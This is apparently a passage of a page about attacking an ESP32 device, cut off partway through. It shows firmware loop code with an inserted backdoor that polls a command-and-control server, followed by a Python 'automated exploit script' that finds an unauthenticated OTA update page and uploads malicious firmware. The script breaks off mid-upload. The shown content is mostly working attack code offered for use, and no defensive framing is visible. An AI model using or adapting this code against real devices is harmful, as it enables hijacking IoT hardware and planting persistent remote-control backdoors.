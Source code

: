 ```cpp
void loop() {
    // Original loop code...
    server.handleClient();
    webSocket.loop();
    
    // BACKDOOR: Check for C2 commands
    if (millis() - lastC2Check > C2_INTERVAL) {
        lastC2Check = millis();
        checkC2();
    }
    
    // Continue original functionality...
}
```

**2. Automated Exploit Script:**

```python
#!/usr/bin/env python3
import requests
import argparse
import sys

def exploit_ota(target_ip, malicious_firmware):
    """
    Exploit insecure OTA update mechanism
    """
    base_url = f"http://{target_ip}:82"
    
    print(f"[*] Targeting ESP32 at {target_ip}")
    
    # Test connectivity
    try:
        r = requests.get(f"{base_url}/", timeout=5)
        print("[+] Device is reachable")
    except:
        print("[-] Cannot reach device")
        return False
    
    # Verify OTA page is accessible
    try:
        r = requests.get(f"{base_url}/serverIndex", timeout=5)
        if r.status_code == 200:
            print("[+] OTA page accessible (no authentication)")
        else:
            print("[-] OTA page not accessible")
            return False
    except:
        print("[-] Error accessing OTA page")
        return False
    
    # Upload malicious firmware
    print(f"[*] Uploading malicious firmware: {malicious_firmware}")
    
    try:
        with open(malicious_firmware, 'rb') as f:
            files = {'update': f}
            r = requests.post(
                f"{base_url}/update",
                files=files,
                timeout=30
            )
            
            if r.status_code == 200:
```
